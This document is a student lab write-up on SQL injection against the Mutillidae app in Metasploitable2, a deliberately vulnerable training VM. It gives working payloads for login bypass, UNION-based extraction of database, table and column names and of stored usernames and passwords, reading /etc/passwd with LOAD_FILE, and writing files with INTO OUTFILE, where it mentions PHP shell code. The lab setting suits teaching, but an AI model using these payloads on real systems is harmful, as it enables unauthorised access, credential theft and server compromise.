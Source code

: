 

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/ce267eca-0fb0-4769-a4c1-28ef3874e907)

Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser. Screenshot 2023-06-10 213747
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/347e2b79-0f9e-497b-938f-18225cc41356)

Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/f93dbdcb-a65f-49de-b9f1-2801e923f739)

Click on the menu Login/Register and register for an account
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/ab9ec622-50da-448e-9c20-d7c4f6a726bf)

Click on the link “Please register here
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/7df27d6d-2a3c-4856-8d63-215abc8cc2d9)

Click on “Create Account” to display the following page:
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/37af75ae-f710-411a-9073-6d4577dcae2f)

The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/ded07f23-c3c3-4afb-924e-f8e9a399811f)

Click “Login”. The logged in page will show as below
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/8d46d742-d27b-4d4c-88bd-face5cd756bb)

##Bypassing login field

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.

![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/857c32da-491b-4735-9277-97147979b9c7)

Click the login button and you will see it enter into the administrator page.
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/9bd9a613-6686-4a23-9291-77a5587b5b8e)

## Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info”

After logging out, Now choose the menu as shown below: img
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/83c2cc83-a3f5-4864-9065-0a3426c3bcf5)

![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/98fdd17e-d336-414b-82c4-498a7f363f9e)

![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/4ffb740d-75ff-4a7a-99fd-32f6f3659f9c)

![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/e81d6411-a036-495a-bf53-b48dc86ec659)

![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/cc9bb709-e05c-4aa2-9d92-ba60fff73fce)
From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned. 
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/3c3f508d-fc31-4bb4-8aa4-534eb68e293b)

Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/f51f6d24-b173-4beb-84fa-ff998120acbb)

After adding the order by 6 into the existing url , the following error statement will be obtained
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/2775edc4-0acf-4f28-82c8-6aa6baee62c9)

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6. 
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/96a104c2-7217-44d7-ba86-b9d0eea8bfc2)

As it is having 5 columns the query worked fine and it provides the correct result
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/8c09ba9e-3e99-4258-a59a-eb062b6419c7)
Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)

![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/48258dc8-3682-4559-b5b7-6e898be15877)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information. 
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/b61f8174-f8a9-4c45-b79f-0a171d6927aa)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/70be5b5a-20eb-4a3a-9a74-9e1f35d4dfd0)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/6f0fc511-74aa-46c4-8aa6-c419ef2255cb)

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/330dca50-b77d-4781-ac3d-5a460ee73dd5)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/9644e75f-0adf-4e04-a2a0-1a2c8c3c9fa5)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/a759dd2e-4fb1-4863-b5cf-fceba00fde1a)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.
Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/AsinVardhini/sqlinjection/assets/119417735/bf03d303-fd61-49e8-9cf8-c1f163d6ba92)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).



## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
